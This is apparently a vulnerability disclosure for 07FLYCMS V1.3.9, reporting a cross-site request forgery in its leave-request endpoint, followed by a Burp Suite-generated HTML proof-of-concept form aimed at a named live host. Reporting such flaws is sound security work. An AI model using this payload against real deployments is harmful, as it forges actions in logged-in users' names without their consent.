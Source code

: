 target:https://github.com/lingqifei/07fly-crm version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component http://erp.07fly.net:80/oa/OaLeave/add.html

POC:


  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/add.html" method="POST">
      <input type="hidden" name="type" value="1" />
      <input type="hidden" name="start_time" value="2024-10-17+21%3A06%3A00" />
      <input type="hidden" name="end_time" value="" />
      <input type="hidden" name="reason" value="cs" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
